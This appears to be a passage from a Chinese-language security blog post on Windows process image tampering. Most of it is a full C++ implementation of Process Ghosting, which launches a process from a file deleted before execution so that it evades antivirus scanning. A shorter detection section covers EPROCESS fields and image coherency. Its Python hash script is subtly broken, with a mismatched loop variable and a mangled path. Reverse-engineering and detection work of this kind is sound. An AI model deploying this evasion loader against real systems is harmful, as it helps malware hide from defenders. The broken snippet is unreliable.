

值得注意的是这里的`obscureFIle`只能针对小文件 大文件的话考虑自己填充点什么东西 不然出来的签名是不合法的

# Process Ghosting

在pe文件被映射到内存后会被保护 不能以`FILE_WRITE_DAT`来修改 也不能通过DeleteFile来删除打开的文件


然而，此删除限制仅在可执行文件映射到映像部分时生效

于是通过NtSetInformationFile设置文件属性`FileDispositionInformation`就可以在CloseHandle的时候删除文件

整体流程如下 该技术同样利用了`NtCreateProcessEx`可以通过Section创建进程的特性

```
1. 创建文件 设置文件属性
2. 创建Section
3. CloseHanle(hFile)
4. 创建进程 填充参数 创建线程
```

```
auto readFileFromDisk(LPCWSTR filePath, LPVOID* buf, PDWORD bytesWritten) -> void {
    HANDLE hFile = NULL;
    hFile = CreateFile(filePath, FILE_READ_ACCESS, NULL, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile != INVALID_HANDLE_VALUE) {
        DWORD fileSize = GetFileSize(hFile, NULL);
        if (fileSize == INVALID_FILE_SIZE) {
            std::cout << "GetFileSize failed with error: " << GetLastError() << std::endl;
            CloseHandle(hFile);
            return;
        }

        *buf = VirtualAlloc(NULL, fileSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
        if (*buf == NULL) {
            std::cout << "VirtualAlloc failed with error: " << GetLastError() << std::endl;
            CloseHandle(hFile);
            return;
        }

        if (!ReadFile(hFile, *buf, fileSize, bytesWritten, NULL)) {
            std::cout << "ReadFile failed with error: " << GetLastError() << std::endl;
            VirtualFree(*buf, 0, MEM_RELEASE);
            CloseHandle(hFile);
            return;
        }

        CloseHandle(hFile);
    }
    else {
        std::cout << "CreateFile failed with error: " << GetLastError() << std::endl;
        return;
    }
}
auto writeFile(PHANDLE pHFile, LPVOID buf, DWORD bytesWritten) -> bool {

    wchar_t tempPath[MAX_PATH];
    GetTempPathW(MAX_PATH, tempPath);
    std::wstring filePath = std::wstring(tempPath) + L"temp.exe";
    HANDLE hFile = CreateFile(filePath.c_str(), GENERIC_WRITE|GENERIC_READ , FILE_SHARE_READ | FILE_SHARE_WRITE  , NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL|FILE_FLAG_DELETE_ON_CLOSE, NULL);

    if(hFile== INVALID_HANDLE_VALUE) {
        std::cout << "[-] CreateFile failed with error: " << GetLastError() << std::endl;
        return FALSE;
    }

    pNtSetInformationFile NtSetInformationFile = (pNtSetInformationFile)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtSetInformationFile");
    
    
    IO_STATUS_BLOCK isb = { 0 };
    FILE_DISPOSITION_INFORMATION fdi = { true };
    NTSTATUS status = NtSetInformationFile(hFile, &isb, &fdi, sizeof(FILE_DISPOSITION_INFORMATION), FileDispositionInformation);

    if (!NT_SUCCESS(status)) {
        std::cout << "[-] NtSetInformationFile failed with status: " << status << std::endl;
        return FALSE;
    }

    DWORD tmpBytesWritten = 0;
    WriteFile(hFile, buf, bytesWritten, &tmpBytesWritten, NULL);
    *pHFile = hFile;
    if (bytesWritten == tmpBytesWritten) return TRUE;

    std::cout<< "[-] Failed to write file with error: " << GetLastError() << std::endl;
    return FALSE;

}
auto genSection(HANDLE hFile, PHANDLE pHSection) -> bool {
    pNtCreateSection NtCreateSection = (pNtCreateSection)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtCreateSection");

    NTSTATUS status = NtCreateSection(pHSection, SECTION_MAP_EXECUTE, NULL, 0, PAGE_READONLY, SEC_IMAGE, hFile);
    if (!NT_SUCCESS(status)) {
        std::cout << "[-] NtCreateSection failed with status: " << status << "
";
        return FALSE;
    }
    return TRUE;
}

auto getEntry(HANDLE hProcess, PPROCESS_BASIC_INFORMATION ppbi, LPVOID buf) -> ULONG64 {

    PEB peb = { 0 };
    pNtReadVirtualMemory NtReadVirtualMemory = (pNtReadVirtualMemory)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtReadVirtualMemory");
    NTSTATUS status = NtReadVirtualMemory(hProcess, ppbi->PebBaseAddress, &peb, sizeof(PEB), NULL);
    if (!NT_SUCCESS(status)) {
        std::cout << "[-] NtReadVirtualMemory failed with status: " << status << std::endl;
        return 0;
    }

    // 获取创建线程的ImageBaseAddress
    ULONG64 imageBase = (ULONG64)peb.ImageBaseAddress;
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)buf;
    PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((ULONG_PTR)buf + pDosHeader->e_lfanew);
    return pNtHeaders->OptionalHeader.AddressOfEntryPoint + imageBase;
}
auto setupParameters(HANDLE hProcess, LPWSTR targetPath, PROCESS_BASIC_INFORMATION& pbi) {

    UNICODE_STRING uniTargetPath = { 0 };
    pRtlInitUnicodeString RtlInitUnicodeString = (pRtlInitUnicodeString)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlInitUnicodeString"); \
        RtlInitUnicodeString(&uniTargetPath, targetPath);

    UNICODE_STRING uniDllDir = { 0 };
    RtlInitUnicodeString(&uniDllDir, L"C:\Windows\System32");


    pRtlCreateProcessParametersEx RtlCreateProcessParametersEx = (pRtlCreateProcessParametersEx)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlCreateProcessParametersEx");
    PRTL_USER_PROCESS_PARAMETERS params = NULL;

    NTSTATUS status = RtlCreateProcessParametersEx(&params, &uniTargetPath, &uniDllDir, NULL, &uniTargetPath, NULL, NULL, NULL, NULL, NULL, RTL_USER_PROC_PARAMS_NORMALIZED);

    if (!NT_SUCCESS(status)) {
        std::cout << "[+]RtlCreateProcessParametersEx failed: " << std::hex << GetLastError() << std::endl;
        return false;
    }

    SIZE_T size = params->EnvironmentSize + params->MaximumLength;
    LPVOID lpMem = params;

    pNtAllocateVirtualMemory NtAllocateVirtualMemory = (pNtAllocateVirtualMemory)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtAllocateVirtualMemory");
    status = NtAllocateVirtualMemory(hProcess, &lpMem, 0, &size, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);


    pNtWriteVirtualMemory NtWriteVirtualMemory = (pNtWriteVirtualMemory)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtWriteVirtualMemory");
    size = 0;
    status = NtWriteVirtualMemory(hProcess, params, params, params->EnvironmentSize + params->MaximumLength, &size);

    PPEB ppeb = pbi.PebBaseAddress;

    size = 0;
    status = NtWriteVirtualMemory(hProcess, &ppeb->ProcessParameters, &params, sizeof(LPVOID), &size);
    if (!NT_SUCCESS(status)) {
        std::cout << "[+] NtWriteVirtualMemory failed: " << std::hex << GetLastError() << std::endl;
        return false;
    }


    return true;


}


auto createProcessAndThread(HANDLE hSection, PHANDLE pHProcess, LPVOID buf, LPWSTR targetPath) {
    pNtCreateProcessEx NtCreateProcessEx = (pNtCreateProcessEx)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtCreateProcessEx");

    NTSTATUS status = NtCreateProcessEx(pHProcess, PROCESS_ALL_ACCESS, NULL, (HANDLE)-1, PROCESS_CREATE_FLAGS_INHERIT_HANDLES, hSection, NULL, NULL, FALSE);

    if (!NT_SUCCESS(status)) {
        std::cout << "[-] NtCreateProcessEx failed with status: " << status << "
";
        return FALSE;
    }

    pNtQueryInformationProcess NtQueryInformationProcess = (pNtQueryInformationProcess)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtQueryInformationProcess");
    PROCESS_BASIC_INFORMATION pbi = { 0 };

    NtQueryInformationProcess(*pHProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), NULL);

    ULONG64 entry = getEntry(*pHProcess, &pbi, buf);
    setupParameters(*pHProcess, targetPath, pbi);


    pNtCreateThreadEx NtCreateThreadEx = (pNtCreateThreadEx)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtCreateThreadEx");
    HANDLE hThread = NULL;
    status = NtCreateThreadEx(&hThread, GENERIC_ALL, NULL, *pHProcess, (PUSER_THREAD_START_ROUTINE)entry, NULL, FALSE, 0, 0, 0, NULL);
    if (NT_SUCCESS(status)) return TRUE;

    return FALSE;
}


auto processGhosting(LPWSTR targetPath) {
    LPVOID buf = NULL;
    DWORD bytesWritten = 0;
    HANDLE hFile = NULL;
    readFileFromDisk(targetPath, &buf, &bytesWritten);

    if(!writeFile(&hFile, buf, bytesWritten)) {
        std::cout << "writeFile Failed" << std::endl;
    }
    FlushFileBuffers(hFile);

    HANDLE hSection = NULL;
    genSection(hFile, &hSection);
    CloseHandle(hFile); // delete

    HANDLE hProcess = NULL;
    createProcessAndThread(hSection, &hProcess, buf, targetPath);

}
```



# 检测

以上技术 大多依赖`NtCreateProcessEx`从Section创建进程

对于imagefilename有这么几个点是值得关注的

```
ImageFileName
ImageFilePointer.FileName
SeAuditProcessCreationInfo.ImageFileName
ImagePathHash
```

这里我们以`Process Doppelgänging`为例 观察一下

首先 `EPROCESS.ImageFileName` 是修改后的



`ImageFilePointer` 直接为空 此处是异常的

正常打开的notepad如下



`SeAuditProcessCreationInfo.ImageFileName` 修改后的



`ImagePathHash` `0xa895e880` 该hash是通过`PfCalculateProcessHash`计算的 与此处值一致 为修改后的



```
MASK64 = (1 << 64) - 1
MASK32 = (1 << 32) - 1
MULT = 0x25  


def calcHash(s: str) -> int:
    
    up = s.upper()
    data = up.encode('utf-16le')  

    v9 = 0x4CB2F 
    idx = 0

    while i < len(data):
        b = data[idx]
        # v9 = b + 37 * v9  
        v9 = (b + MULT * v9) & MASK64
        i += 1

    low32 = v9 & MASK32
    if low32 <= 1:
        low32 = 1
    return low32


data =  r"\Device\HarddiskVolume3\Users\admin\Desktop
otepad.exe"

print(hex(calcHash(data)))
```

还有值得注意的点就是`image coherency`

在System Informer设置中打开 然后把对应的列显示了





# 参考

<https://github.com/hasherezade/process_doppelganging>

<https://www.crowdstrike.com/en-us/blog/herpaderping-security-risk-or-unintended-behavior/>

<https://github.com/jxy-s/herpaderping>

<https://www.elastic.co/blog/process-ghosting-a-new-executable-image-tampering-attack>
